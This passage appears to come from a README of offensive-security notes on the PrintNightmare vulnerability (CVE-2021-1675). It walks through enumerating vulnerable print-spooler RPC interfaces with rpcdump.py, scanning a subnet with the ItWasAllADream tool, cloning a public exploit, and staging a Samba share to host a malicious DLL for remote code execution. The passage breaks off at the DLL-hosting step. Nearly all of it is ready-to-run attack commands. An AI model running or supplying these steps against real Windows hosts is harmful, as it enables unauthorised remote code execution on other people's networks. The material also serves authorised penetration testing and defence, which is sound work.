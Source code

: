 ### RPC Dump

If you can reach these RPC interfaces you might be able to use printnightmare.

```bash
rpcdump.py @ip | egrep 'MS-RPRN|MS-PAR'
```

![rpcdump](images/rpcdump.png)

### It Was All A Dream

https://github.com/byt3bl33d3r/ItWasAllADream

```bash
git clone https://github.com/byt3bl33d3r/ItWasAllADream
cd ItWasAllADream && docker build -t itwasalladream .
docker run -it itwasalladream -u user -p password -d domain 192.168.1.0/24
docker cp <container-id>:/report_XXXXXXX ./
```

## Setup tool for remote RCE (cube0x0)

Ensure you have a impacket version that has [this PR](https://github.com/SecureAuthCorp/impacket/pull/1109) merged.

```bash
mkdir printnightmare
cd printnightmare
mkdir payloads
git clone https://github.com/justin-p/CVE-2021-1675
```

Then if you are lazy just use the [Taskfile](https://taskfile.dev/#/) inlclude in the repo.

```bash
task payload_folder
task printnightmare_samba_share
```

To restore the smb.conf and stop the service run

```bash
task restore_samba
```

Otherwise use the steps below

### Host Dll

Make a backup of your smb.conf
